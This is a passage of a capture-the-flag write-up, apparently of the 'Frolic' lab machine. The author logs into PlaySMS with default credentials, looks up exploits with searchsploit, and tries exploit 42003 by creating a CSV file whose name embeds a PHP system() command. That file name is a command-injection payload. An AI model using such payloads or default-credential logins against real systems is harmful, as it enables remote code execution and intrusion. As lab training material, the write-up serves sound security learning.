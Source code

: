 <br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After logging in with default or typical passwords, I log in with the one I found earlier, and I analyze the **PlaySMS** application a little bit but I don't find much. But by clicking on one of the links I access the official website of the software and get the software version, with `searchsploit` I find some exploits that I can test.

```bash
# http://frolic:9999/playsms/index.php?app=main&inc=core_auth&route=login
# google.es --> playsms default credentials
#    admin:admin               :(
#    guest:guest               :)

searchsploit playsms
searchsploit playsms | grep -v -i 'metasploit'
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I try with the first exploit in the list, with `searchsploit` I get information about how to perform the exploit, I just have to create a **.csv** file with a **"special name"** and upload it to the indicated path to execute a command, but for some reason the file structure is not the indicated one.

```bash
searchsploit -x 42003.txt
nvim example.csv
#        upload          :(

touch "<?php system('uname -a'); dia();?>.csv"
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/frolic_writeup/Frolic_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
